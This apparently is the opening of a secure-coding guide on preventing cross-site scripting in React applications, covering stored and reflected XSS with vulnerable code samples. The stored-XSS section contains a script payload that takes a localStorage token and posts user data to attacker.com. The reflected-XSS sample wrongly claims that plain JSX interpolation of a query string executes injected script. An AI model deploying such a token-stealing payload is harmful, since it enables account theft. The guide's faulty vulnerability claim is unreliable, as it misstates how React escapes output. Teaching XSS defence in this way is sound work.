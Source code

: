 # XSS Prevention Strategies: Complete Protection Guide

Cross-Site Scripting (XSS) represents one of the most common and dangerous web vulnerabilities, affecting 84% of web applications according to OWASP 2023 data. This comprehensive guide provides practical strategies for preventing all types of XSS attacks in modern frontend applications.

## Understanding XSS Attack Vectors

### Types of XSS Attacks

#### 1. Stored XSS (Persistent)
- **Description**: Malicious script stored in database and executed when content is displayed
- **Risk Level**: Critical - affects all users viewing the content
- **Common Targets**: User profiles, comments, forum posts, reviews

```typescript
// Vulnerable code example
const UserComment: React.FC<{ comment: string }> = ({ comment }) => {
  // DANGEROUS: Direct HTML insertion without sanitization
  return <div dangerouslySetInnerHTML={{ __html: comment }} />;
};

// Attack payload example
const maliciousComment = `
  <script>
    // Steal authentication tokens
    fetch('/api/user/data', {
      headers: { 'Authorization': localStorage.getItem('token') }
    }).then(response => response.json())
    .then(data => {
      // Send stolen data to attacker's server
      fetch('https://attacker.com/steal', {
        method: 'POST',
        body: JSON.stringify(data)
      });
    });
  </script>
  Great article!
`;
```

#### 2. Reflected XSS (Non-Persistent)
- **Description**: Malicious script reflected from user input in URL parameters or form data
- **Risk Level**: High - affects users who click malicious links
- **Common Targets**: Search results, error messages, URL parameters

```typescript
// Vulnerable search component
const SearchResults: React.FC<{ query: string }> = ({ query }) => {
  // DANGEROUS: Direct display of user input
  return (
    <div>
      <h2>Search results for: {query}</h2>
      {/* If query contains <script>, it will execute */}
    </div>
  );
};

// Attack URL example
// https://example.com/search?q=<script>alert('XSS')</script>
```
